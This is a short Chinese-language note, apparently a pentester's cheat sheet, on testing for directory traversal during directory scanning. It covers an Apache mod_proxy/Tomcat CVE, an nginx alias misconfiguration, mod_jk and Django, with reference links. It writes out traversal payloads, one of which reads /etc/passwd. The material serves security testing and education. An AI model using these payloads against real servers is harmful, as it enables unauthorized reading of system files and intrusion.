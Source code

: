 在信息收集中，目录扫描也是必不可少的，因为它能够让你更好的了解一个应用的结构，当然运气好的话，则会遇到具有价值的页面，比如phpinfo、未授权高危操作页面、他人的webshell等。

但是在扫描目录的时候，其实还可以尝试做其他的测试，比如目录穿越

1、CVE-2007-0450: apache mod_proxy
Apache HTTP Server and Tomcat 5.x before 5.5.22 and 6.x before 6.0.10
利用%5c: /josso/%5C../web-console

https://hackerone.com/reports/502758

2、nginx配置不当
location /static {
    alias /var/www/static/;
    autoindex on;
}

当访问/static../就是访问static的上一级目录
https://www.cnblogs.com/iamstudy/articles/2016_hctf_web_writeup.html

3、mod_jk
/..;/

https://github.com/orangetw/My-CTF-Web-Challenges#blackbox

4、django
/static/../../../../../etc/passwd

http://www.anquan.us/static/drops/papers-5040.html

